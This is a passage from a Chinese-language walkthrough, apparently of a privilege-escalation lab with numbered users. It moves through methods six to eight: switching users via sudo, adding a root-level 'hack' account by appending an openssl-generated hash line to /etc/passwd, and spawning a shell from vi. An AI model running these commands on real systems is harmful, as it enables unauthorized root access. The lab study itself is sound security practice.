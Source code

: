 按照这个样式尝试其他用户：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403192201609.png" alt="image-20240319200534846" style="zoom:50%;" />

进入`user1`：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403192201610.png" alt="image-20240319200631708" style="zoom: 33%;" />

事实上，这里不用猜也可以找到密码：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403192201611.png" alt="image-20240319213507013" style="zoom: 50%;" />

### 方法六 mysql 超级用户user1

进`user2`，查看一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403192201612.png" alt="image-20240319212827304" style="zoom:50%;" />

发现`user1`的特殊性：

```bash
sudo -u user1 bash
```

进入`user1`：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403192201610.png" alt="image-20240319200631708" style="zoom: 33%;" />

### 方法七：特权用户user7

登录一下`user7`：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403192201613.png" alt="image-20240319201322197" style="zoom: 50%;" />

添加新root用户：

```bash
# kali
openssl passwd -1 -salt hack hack@12345
# user7
echo 'hack:$1$hack$iSJ/mXJe8rRxVN4fxqhbJ1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403192201614.png" alt="image-20240319202954726" style="zoom:50%;" />

### 方法八：user8 vi提权

切换至`user8`：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403192201615.png" alt="image-20240319200920095" style="zoom: 50%;" />

发现`vi`权限过高，尝试提权：

```bash
vi
:!sh
```
